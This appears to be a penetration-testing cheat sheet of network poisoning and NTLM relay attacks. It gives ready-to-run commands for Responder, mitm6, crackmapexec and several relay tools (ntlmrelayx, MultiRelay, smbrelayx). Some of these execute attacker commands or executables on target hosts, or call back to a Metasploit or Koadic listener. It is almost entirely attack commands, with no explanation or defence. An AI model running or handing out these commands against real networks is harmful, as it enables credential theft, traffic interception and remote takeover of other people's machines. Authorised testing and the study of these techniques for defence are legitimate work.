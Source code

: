 ## Poisoning Attack

#### Responder
```
responder -I eth0
```
#### IPv6 DHCP Rogue Server 
Install Mitm6
```
pip install mitm6
```

```
mitm6 -i eth0
```

#### Generate SMB Signing Disabled Hosts
```
crackmapexec smb --gen-relay-list smb_sigb_disbaled.txt ranges.txt
```
#### Relay Attacks 
ntlmrelayx
```
python3 ntlmrelayx.py -smb2support -tf filename
```
ntlmrelayx Comamnd execution
```
python3 ntlmrelayx.py -smb2support -tf filename -c <msf or koadic listener here>
```
Multirelay
```
python3 MultiRelay.py -t IP -u ALL
```
SMBrelay
```
python3 smbrelayx.py -h IP -c <command>
```
```
python3 smbrelayx.py -h IP -e <executable>
```
